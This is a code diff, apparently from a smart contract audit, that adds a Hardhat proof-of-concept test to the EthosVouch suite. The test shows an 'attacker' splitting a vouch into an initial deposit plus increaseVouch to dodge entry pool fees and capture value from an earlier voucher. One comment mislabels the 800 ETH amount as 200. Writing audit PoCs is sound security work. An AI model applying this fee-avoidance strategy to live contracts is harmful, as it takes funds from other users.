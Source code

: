 ```diff
+        10000, // Entry vouchers pool fee basis points
         0, // Exit fee basis points
       ]),
     );
 
     await ethosVouchProxy.waitForDeployment();
     const ethosVouchAddress = await ethosVouchProxy.getAddress();
@@ -441,12 +441,58 @@ describe('EthosVouch', () => {
           'Wrong unhealthyResponsePeriod, 2',
         );
       });
     });
 
     describe('vouchByProfileId', () => {
+      it('should demonstrate fee savings with two-step vouching strategy', async () => {
+        const {
+          ethosVouch,
+          PROFILE_CREATOR_0,
+          PROFILE_CREATOR_1,
+          VOUCHER_0,
+          VOUCHER_1,
+          ethosProfile,
+          OWNER,
+        } = await loadFixture(deployFixture);
+
+        // create a profile
+        await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
+        await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
+        await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_1.address);
+        await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_1.address);
+        await ethosProfile.connect(VOUCHER_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_1).createProfile(1);
+        await ethosProfile.connect(VOUCHER_1).createProfile(1);
+
+        // Step 1: Naive user vouches 100 ETH
+        await ethosVouch.connect(VOUCHER_0).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('100'),
+        });
+
+        const attacker = VOUCHER_1;
+        // Step 2: Attacker vouches 200 ETH
+        await ethosVouch.connect(attacker).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('200'),
+        });
+        
+        // Step 3: Attacker vouches 200 ETH
+        await ethosVouch.connect(attacker).increaseVouch(
+          1,  // Same vouch ID
+          { value: ethers.parseEther('800') }
+        );
+        const initialVouch = await ethosVouch.vouches(0);
+        const attackerVouch = await ethosVouch.vouches(1);
+      
+        // Get final state for two-step attack
+        expect(initialVouch.balance).to.be.lt(ethers.parseEther('600'));
+        expect(attackerVouch.balance).to.be.gt(ethers.parseEther('500'));
+        console.log("Fee saved = %d", attackerVouch.balance - ethers.parseEther('500'));
+      });
+      
       it('should fail if no profile', async () => {
```